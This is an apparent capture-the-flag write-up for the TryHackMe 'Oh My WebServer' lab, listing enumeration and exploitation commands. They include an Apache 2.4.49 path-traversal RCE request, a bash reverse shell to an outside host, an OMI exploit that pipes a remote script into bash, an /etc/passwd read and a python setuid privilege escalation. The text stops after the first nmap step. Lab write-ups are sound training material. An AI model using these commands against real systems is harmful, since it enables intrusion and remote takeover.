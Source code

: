 # TryHackMe-Oh My WebServer

**Scope:**

- Open Management Infrastructure (OMI)
- Linux Capabilities

**Keywords:**

- Directory Scan
- Apache 2.4.49
- Path Traversal Phase
- Remode Code Execution
- Python Capabilities
- OMI Exploitation
- Nmap Binary

**Main Commands:**

- `nmap -sSVC -oN nmap_result.txt -A -O -Pn -F $target_ip`
- `wfuzz -u http://ohmyweb.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt --hc 404,500,501,502,503 -c -t 50 -L`
- `searchsploit 'Apache 2.4.49'`
- `searchsploit -m multiple/webapps/50383.sh`
- `curl -skL -X GET 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami && pwd && id' -H "Content-Type: text/plain"`
- `bash 50383.sh targets.txt '/bin/sh' "cat /etc/passwd"`
- `curl -skL -X GET 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.2.37.37/11143 0>&1' -H "Content-Type: text/plain"`

**System Commands:**

- `python3 exploit.py -t 172.17.0.1 -c 'curl http://10.2.37.37:8000/reversebash.sh | bash'`
- `python3 exploit.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a'`
- `curl http://10.2.37.37:8000/nmap -o nmap`
- `netstat -tulwn`
- `ifconfig`
- `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
- `getcap -r / 2>/dev/null`
- `getent group daemon`
- `SHELL=/bin/bash script -q /dev/null`
- `export TERM=xterm`

### Laboratory Environment

[Oh My WebServer](https://tryhackme.com/r/room/ohmyweb)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -oN nmap_result.txt -A -O -Pn -F $target_ip`
